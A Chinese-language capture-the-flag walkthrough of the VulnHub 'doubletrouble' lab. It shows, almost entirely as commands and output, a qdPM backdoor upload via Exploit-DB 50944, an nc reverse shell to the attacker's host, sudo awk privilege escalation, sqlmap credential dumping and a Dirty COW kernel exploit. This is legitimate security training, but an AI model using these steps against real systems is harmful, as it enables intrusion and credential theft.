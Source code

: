 靶机地址：[doubletrouble: 1 ~ VulnHub](https://vulnhub.com/entry/doubletrouble-1,743/)
主机发现、端口扫描、服务枚举
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.43
sudo nmap -p22,80 -sV 192.168.1.43
# 22/tcp open   ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
# 80/tcp open   http    Apache httpd 2.4.38 ((Debian))
```
先访问web服务是一个登录页面，用的qdPM 9.1
通过信息收集，发现很多暴露的文件，但是没找到关键信息
```Shell
searchsploit qdPM > exp_qdPM.txt
cat exp_qdPM.txt
```
漏洞利用代码也至少需要一个账号和密码，搜索默认账号密码，也登录失败了
Web路径枚举
```Shell
sudo dirsearch -u http://192.168.1.43
```
在 `/secret` 路径下下载到一张图片：`doubletrouble.jpg` ，可能使用了隐写术
```Shell
steghide info doubletrouble.jpg
# 需要输入密码

stegseek doubletrouble.jpg /home/kali/Tools/Custom/rockyou.txt
# [i] Found passphrase: "92camaro"
# [i] Original filename: "creds.txt".
# [i] Extracting to "doubletrouble.jpg.out".
cat doubletrouble.jpg.out
# otisrush@localhost.com
# otis666
```
这样的话就获得了一个账号和密码
尝试执行漏洞利用代码
```Shell
cp /usr/share/exploitdb/exploits/php/webapps/50944.py .
python3 50944.py -url "http://192.168.1.43/" -u "otisrush@localhost.com" -p "otis666"
# Backdoor uploaded at - > http://192.168.1.43/uploads/users/184488-backdoor.php?cmd=whoami
```
反弹shell，访问
```
http://192.168.1.43/uploads/users/184488-backdoor.php?cmd=nc 192.168.1.26 4444 -e /bin/bash
http://192.168.1.43/uploads/users/184488-backdoor.php?cmd=nc%20192%2E168%2E1%2E26%204444%20%2De%20%2Fbin%2Fbash
```
成功获取到shell，尝试提权
```Shell
sudo -l
# (ALL : ALL) NOPASSWD: /usr/bin/awk
```
去 [[02 Web工具#GTFOBins|GTFOBins]] 上查一下
```Shell
sudo awk 'BEGIN {system("/bin/sh")}'
# bash也行 更好用
sudo awk 'BEGIN {system("/bin/bash")}'
```
成功提权
```Shell
cd
ls
# doubletrouble.ova
```
又发现一个镜像文件，看来是要下载下来
```Shell
sudo arp-scan -l
sudo nmap -p- 192.168.1.44
sudo nmap -p22,80 -sV 192.168.1.44
# 22/tcp open  ssh     OpenSSH 6.0p1 Debian 4+deb7u4 (protocol 2.0)
# 80/tcp open  http    Apache httpd 2.2.22 ((Debian))
```
访问一下web服务是一个登录页面
尝试一下SQL注入
```Shell
sqlmap -r request.txt -p "uname,psw"
```
存在SQL注入漏洞，尝试直接获取Shell
```Shell
sqlmap -r request.txt -p "uname" --os-shell
```
失败了，先看下数据
```Shell
sqlmap -r request.txt -p "uname" --dbms=mysql --dbs
```
用的是基于时间的盲注，比较慢，指定一下时间和线程
```Shell
sqlmap -r request.txt -p "uname" --dbms=mysql --time-sec=1 --threads=8 --dbs
# doubletrouble
sqlmap -r request.txt -p "uname" -D "doubletrouble" --dbms=mysql --time-sec=1 --threads=8 --tables
# users
sqlmap -r request.txt -p "uname" -D "doubletrouble" -T "users" --dbms=mysql --time-sec=1 --threads=8 --columns
# username password
sqlmap -r request.txt -p "uname" -D "doubletrouble" -T "users" -C "username,password" --dbms=mysql --time-sec=1 --threads=8 --dump
# montreux    GfsZxc1
# clapton     ZubZub99
```
登录没反应，试试SSH，`clapton` 这个账号成功连上了
尝试提权，几种方式都不行，还是利用内核提权
```Shell
uname -a
# Linux doubletrouble 3.2.0-4-amd64 #1 SMP Debian 3.2.78-1 x86_64 GNU/Linux
which gcc
# /usr/bin/gcc
```
利用脏牛漏洞：[[20 CVE#CVE-2016–5195|CVE-2016–5195]] 成功提权


